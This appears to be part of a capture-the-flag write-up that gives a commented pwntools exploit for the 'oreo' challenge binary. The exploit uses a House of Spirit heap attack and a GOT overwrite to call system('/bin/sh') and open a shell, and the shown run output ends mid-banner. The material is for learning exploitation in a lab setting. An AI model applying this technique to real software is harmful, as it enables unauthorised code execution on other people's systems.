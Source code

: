 ```
# Show the guns, scan in and parse out the infoleak, figure out the base of libc, and figure out where system is
libc_base = leakLibc()
system = libc_base + libc.symbols['system']
log.info("System is: " + hex(system))

# Iterate through 0x3f cycles of adding then freeing that rifle, to increment new_rifles to 0x40. Also we need to overwrite the value of previous_rifle_ptr with 0x0, so the free check won't do anything (and the program won't crash)
for i in xrange(0x3f):
  addRifle("1"*0x1b + p32(0x0), "1593")
  orderRifles()

# Add a rifle to overwrite the next ptr for the rifle to the address of 0x804a2a8 (our fake chunk for the house of spirit)
addRifle("1"*0x1b + p32(0x804a2a8), "15935728")

# Write the size value of the second fake chunk by leaving a message
leaveMessage(p32(0)*9 + p32(0x81))


# Free the fake chunk, so it ends up in the fast bin
orderRifles()

# Allocate a new chunk of heap, which will allow us to write over 0x804a2a8 which is messafe_storage_ptr with the got address of scanf
addRifle("15935728", p32(elf.got['__isoc99_sscanf']))

# Write over the value stored in the got address of scanf with the libc address of system which we got from the infoleak
leaveMessage(p32(system))

# Send the string /bin/sh which will get scanned into memory with fgets, then passed to system (supposed to be passed to scanf)
target.sendline("/bin/sh")

# Drop to an interactive shell
target.interactive()
```

```
$ python exploit.py
[+] Starting local process './oreo': pid 3935
[*] '/Hackery/pod/modules/house_of_spirit/hacklu14_oreo/oreo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/Hackery/pod/modules/house_of_spirit/hacklu14_oreo/libc-2.23.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Welcome to the OREO Original Rifle Ecommerce Online System!

     ,______________________________________
    |_________________,----------._ [____]  -,__  __....-----=====
                   (_(||||||||||||)___________/                   |
                      `----------'   OREO [ ))"-,                   |
                                           ""    `,  _,--....___    |
                                                   `/           """"
    
```